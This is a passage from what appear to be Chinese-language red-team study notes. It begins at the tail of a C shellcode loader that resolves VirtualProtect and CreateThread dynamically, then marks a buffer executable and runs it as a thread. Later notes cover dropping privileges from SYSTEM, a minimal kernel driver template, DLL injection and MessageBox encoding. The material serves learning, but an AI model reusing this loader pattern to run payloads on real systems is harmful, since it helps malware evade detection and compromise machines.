    pVirtualProtect VirtualProtect = (pVirtualProtect)GetProcAddress(hKernal32, "VirtualProtect");
    pCreateThread CreateThread = (pCreateThread)GetProcAddress(hKernal32, "CreateThread");
    pWaitForSingleObject WaitForSingleObject = (pWaitForSingleObject)GetProcAddress(hKernal32, "WaitForSingleObject");
    VirtualProtect(&buf, sizeof buf, PAGE_EXECUTE_READWRITE, &oldProtect);
    HANDLE hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)(CHAR*)buf, NULL, NULL, &dwThreadId);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```
# windows特殊机制

## 降权

system和administrator在session层有差异，导致system无法截屏，vnc，环境变量不一样，就需要降权。

## 驱动编写

先要安装对应vs studio的wdk和sdk在windows上，然后在vs里搜索wdm，有个踩坑点：安装完要点击加载进vs studio才能创建驱动项目


这样就OK


最简驱动模板，ntddk.h内核常用结构
```
#include <ntddk.h>

VOID DriverUnload(PDRIVER_OBJECT driver)
{
}

NTSTATUS DriverEntry(PDRIVER_OBJECT driver, PUNICODE_STRING reg_path)
{
	driver->DriverUnload = DriverUnload;
	return STATUS_SUCCESS;
}
```

# dll注入

LoadLibrary或反射dll

## 编码

```CPP
MessageBoxA系默认ascii编码
MessageBoxA(0, "1", "1", MB_OK);

MessageBoxW系默认unicode编码
MessageBoxW(0, L"w", L"w", MB_OK);  或
MessageBox(0, _T("w"), _T("w"), MB_OK); //更高级的写法
```


